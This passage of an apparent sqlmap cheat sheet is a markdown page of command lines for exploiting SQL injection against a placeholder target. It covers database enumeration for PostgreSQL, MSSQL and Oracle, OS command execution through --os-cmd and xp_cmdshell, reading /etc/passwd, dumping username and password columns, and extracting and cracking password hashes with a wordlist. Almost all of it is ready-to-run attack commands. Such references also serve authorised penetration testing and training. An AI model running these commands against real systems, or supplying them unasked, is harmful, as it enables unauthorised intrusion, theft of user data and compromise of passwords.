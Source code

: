 ### PostgreSQL
```bash
# PostgreSQL enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbms=postgresql --current-user --current-db

# PostgreSQL command execution
sqlmap -u "http://target.com/page.php?id=1" --os-cmd="id" --dbms=postgresql
```

### Microsoft SQL Server
```bash
# MSSQL enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbms=mssql --current-user --is-dba

# MSSQL extended procedures
sqlmap -u "http://target.com/page.php?id=1" --sql-query="EXEC xp_cmdshell 'whoami'"
```

### Oracle
```bash
# Oracle enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbms=oracle --current-user --current-db

# Oracle file access
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd" --dbms=oracle
```

---

## 🔍 Advanced Data Extraction

### Selective Data Dumping
```bash
# Dump specific columns
sqlmap -u "http://target.com/page.php?id=1" -D database -T users -C "username,password" --dump

# Dump with WHERE condition
sqlmap -u "http://target.com/page.php?id=1" -D database -T users --where="role='admin'" --dump

# Dump specific number of entries
sqlmap -u "http://target.com/page.php?id=1" -D database -T users --start=1 --stop=10 --dump

# Search for specific data
sqlmap -u "http://target.com/page.php?id=1" -D database -T users --search -C password
```

### Password Hash Cracking
```bash
# Dump password hashes
sqlmap -u "http://target.com/page.php?id=1" --passwords

# Crack hashes with dictionary
sqlmap -u "http://target.com/page.php?id=1" --passwords --password-file=/usr/share/wordlists/rockyou.txt

# Use custom wordlist
sqlmap -u "http://target.com/page.php?id=1" --passwords --password-file=custom_wordlist.txt
```

---